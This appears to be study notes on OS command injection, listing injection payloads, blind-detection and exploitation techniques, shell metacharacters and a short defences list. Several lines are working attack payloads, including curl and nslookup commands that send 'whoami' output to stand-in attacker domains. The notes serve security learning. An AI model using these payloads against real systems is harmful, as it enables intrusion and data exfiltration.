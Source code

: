 # OS command injection

### Command injection

* `& echo qwerty &`
  * Placing & after the injected command is generally useful because it separates the injected command from whatever follows the injection point

### Blind OS command

* #### Detection
  * `& ping -c 10 127.0.0.1 &`
    * 10 sec... time delay
* #### Exploit
  1.
     * Redirecting output -> (you must have write permission)
     * `& whoami > /var/www/static/whoami.txt &`
     * `curl https://website.com/whoami.txt`
  2.
     * Out-of-band techniques
     * ``& curl `whoami`.webserver-attacker.com &`` (HTTP traffic may be blocked)
     * ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``

### Bypass restriction

* There are so many ways ...
  * https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

### Metacharacters

* Windows & Unix
  * &
  * &&
  * |
  * ||
* Unix
  * ;
* Unix inline execution
  * \`command\`
  * $(command)

### Defences

* Whitelist of permitted values
* Validating that the input is a number
* Validating that the input contains only alphanumeric characters, no other syntax or whitespace
* Never attempt to sanitize input by escaping shell metacharacters
